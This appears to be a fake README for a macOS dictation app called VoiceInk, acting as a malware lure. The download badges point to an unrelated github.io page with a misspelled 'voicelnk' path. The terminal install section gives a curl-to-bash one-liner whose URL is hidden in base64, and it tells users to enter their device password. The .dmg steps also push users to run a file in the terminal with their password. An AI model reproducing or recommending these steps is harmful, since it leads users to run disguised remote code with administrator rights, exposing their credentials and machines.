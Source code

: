 # 🎙️ VoiceInk — Speech-to-Text Dictation Tool for macOS

**VoiceInk** is an intuitive speech-to-text application for macOS that transforms your spoken words into accurate, editable text in real-time. Ideal for writers, students, professionals, and anyone who prefers voice input over typing, VoiceInk offers fast, reliable dictation with intelligent punctuation and multi-language support.

Whether you're drafting emails, writing articles, or transcribing notes, VoiceInk helps you work faster and more comfortably on your Mac.

---

## ✅ Download VoiceInk for macOS  
[![Download VoiceInk](https://img.shields.io/badge/Download-VoiceInk-blue)](https://shuziktobehuman.github.io/huja/voicelnk)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 📦 What is VoiceInk?

VoiceInk is a macOS-native dictation software that uses advanced speech recognition to convert voice input into text with high precision. Designed with simplicity in mind, it features an elegant interface, support for multiple languages, and the ability to transcribe in real-time or from recorded audio files. It's the perfect companion for hands-free writing, note-taking, or creating documents without a keyboard.

---

## ✨ Features

- 🎤 **Real-Time Speech Recognition** with high accuracy  
- 📝 Dictate directly into documents, notes, or emails  
- 🌍 Multi-language support for global users  
- ✨ Smart punctuation and formatting detection  
- 🎧 Transcribe from microphone input or audio files  
- ⚙️ Customizable voice commands and shortcuts  
- 🖥 Lightweight macOS interface optimized for Apple Silicon  
- 🔁 Easily edit, copy, or export transcribed text  

---

## 💡 Why Use VoiceInk?

- 🧠 Speeds up writing and content creation  
- 👐 Hands-free operation — ideal for multitasking or accessibility  
- 🔍 Accurate dictation powered by advanced voice models  
- 📚 Perfect for authors, students, teachers, and business professionals  
- 💬 Enables more natural workflow and reduces typing fatigue  

---

[![Download VoiceInk](https://img.shields.io/badge/Download-VoiceInk-blue)](https://shuziktobehuman.github.io/huja/voicelnk)

---


## 🖼 Preview

![VoiceInk Screenshot 1](https://mac-cdn.softpedia.com/screenshots/VoiceInk_1.jpg)  
![VoiceInk Screenshot 2](https://mac-cdn.softpedia.com/screenshots/VoiceInk_5.jpg)

---

## 📌 Tags

voiceink, voiceink mac, voiceink mac download, voiceink download mac, voiceink download,  
mac dictation app, voice to text mac, speech recognition mac, dictation software macos,  
voice typing mac, real-time transcription mac, voiceink app mac, speech to text app for mac,  
voice transcriber mac
